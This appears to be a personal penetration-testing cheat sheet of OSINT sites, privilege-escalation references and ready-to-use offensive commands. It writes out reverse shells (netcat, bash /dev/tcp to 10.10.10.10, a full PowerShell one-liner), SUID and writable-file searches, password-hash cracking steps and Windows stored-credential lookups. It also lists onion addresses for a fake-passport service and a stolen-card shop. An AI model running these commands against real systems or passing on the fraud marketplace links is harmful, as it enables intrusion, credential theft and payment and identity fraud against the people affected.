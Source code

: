 OSINT

SSL/TLS cert validation - http://crt.sh/ - good for identifying subdomains
https://www.netcraft.com/ - OSINT
Sublist3r - python DNS lister
DNS queries: https://dnsdumpster.com/
Public db of everything: https://www.shodan.io/
theHarvester - people searching
censys - search engine of all server and devices ever exposed

Browsers:
- TOR browser
- Freenet
- GNUnet
- I2P
- Retroshare

Deep/dark web search:
- ExoneraTor (https://metrics.torproject.org)
- OnionLand Search engine (https://onionlandsearchengine.com)
- The Hidden Wiki is an onion site that works as a Wikipedia service of hidden websites. (http://zqktlwiuavvvqqt4ybvgvi7tyo4hjl5xgfuvpdf6otjiycgwqbym2qad.onion/wiki)
- FakeID is an onion site for creating fake passports (http://ymvhtqya23wqpez63gyc3ke4svju3mqsby2awnhd3bk2e65izt7baqad.onion)
- Cardshop is an onion site that sells cards with good balances (http://s57divisqlcjtsyutxjz2ww77vlbwpxgodtijcsrgsuts4js5hnxkhqd.onion)


https://www.exploit-db.com/

https://crackstation.net/

Payloads all the things: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
Reverse shell cheatsheet: https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Sec Lists: https://github.com/danielmiessler/SecLists

nc reverse shell - nc <LOCAL-IP> <PORT> -e /bin/bash

Netscat Shell stabilitisation

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm
3. Ctrl + Z then stty raw -echo; fg

1. sudo apt install rlwrap
2. rlwrap nc -lvnp <port>
3. stty raw -echo; fg

Self signed crt: openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
Merge key and crt into pem: cat shell.key shell.crt > shell.pem
PS reverse shell: powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

cat /etc/passwd | grep home
sudo -l
ipconfig
netstat -a
netstat -au
netstat -at
netstat -lp
netstat -ltp
netstat -s
netstat -tp
netstat -i

find / -perm a=x -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null => Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
    - https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
    - https://github.com/mzet-/linux-exploit-suggester
    - https://github.com/diego-treitos/linux-smart-enumeration
    - https://github.com/linted/linuxprivchecker
    - https://github.com/rebootuser/LinEnum

https://gtfobins.github.io/

find / -type f -perm -04000 -ls 2>/dev/null - will list files that have SUID or SGID bits set
find / -writable 2>/dev/null - find writable folders
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

unshadow passwd.txt shadow.txt > passwords.tx
openssl passwd -1 -salt <salt> <password> - generate salted hash for a new password
su <new account> - change account

getcap -r / - list enabled capabilities
/etc/crontab

#sh file content to execute reverse shell without nc
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/6666 0>&1

PS commands history (From CMD) - type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
cmdkey /list - stored credentials
    => runas /savecred /user:<user> cmd.exe - use runas with stored creds

PuTTY proxy details => reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
